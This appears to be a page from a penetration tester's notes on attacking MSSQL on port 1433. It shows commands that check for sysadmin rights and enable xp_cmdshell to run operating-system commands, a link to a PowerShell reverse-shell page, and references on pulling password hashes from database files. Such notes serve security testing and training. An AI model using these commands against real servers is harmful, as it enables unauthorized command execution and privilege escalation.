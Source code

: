 # 1433 - MSSQL

## Connect to MSSQL from Kali

{% page-ref page="../tools/mssqlclient.py-impacket.md" %}

## MSSQL for PrivEsc

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
-----------
          1

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

xp_cmdshell "whoami"
```

{% hint style="info" %}
Compare the following syntax \(note the `;)`

* `EXEC xp_cmdshell "whoami";`
* `xp_cmdshell "whoami"`
{% endhint %}

{% page-ref page="../kits/reverse-shell/shell-powershell.md" %}

## MSSQL System Databases

Documentation: [https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions](https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions)

To restore backups \(.bak\) or read database files \(.mdf and .ldf\) offline: 

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
* [https://rastating.github.io/from-lfi-to-sql-database-backup/](https://rastating.github.io/from-lfi-to-sql-database-backup/)

